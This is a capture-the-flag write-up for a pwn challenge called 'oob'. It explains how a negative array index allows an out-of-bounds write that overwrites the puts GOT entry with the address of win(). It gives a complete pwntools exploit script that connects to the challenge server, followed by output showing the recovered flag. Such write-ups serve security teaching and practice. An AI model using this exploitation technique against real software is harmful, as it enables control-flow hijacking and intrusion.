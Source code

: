 # Access Denied: Pwn/OOB

## Question 

I only have an array here

server: nc 34.71.207.70 1337

[oob](oob)

## Solution

The program has an ``out of bounds`` vulnerability because we can index negative values in the array. This allows us to write to memory outside the array, in this case, we'lL overwrite the ``got['puts']`` entry with the addess of the ``win()`` function.

```python
offset=(e.got['puts']-e.sym['arr'])/4
```

Putting our script together:

```python
from pwn import *
import sys

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
break *0x4012c4
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.71.207.70',1337)
    else:
        return process(e.path,level="error")


offset=(e.got['puts']-e.sym['arr'])/4

p = start()
p.recvuntil(b'Enter the index:') 
p.sendline(b'%i' %offset)
p.recvuntil(b'Enter the value:')
p.sendline(b"%i" %e.sym['win'])
p.interactive()


```

Running our script yields the flag 

```
$ python3 pwn-oob.py BIN=./oob REMOTE
[*] '/root/workspace/access_denied/oob/oob'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './oob'
[+] Opening connection to 34.71.207.70 on port 1337: Done
[*] Switching to interactive mode
 accessdenied{00b_4r3_v3ry_us3ful_r1ght_54a4ce45}
[*] Got EOF while reading in interactive
```

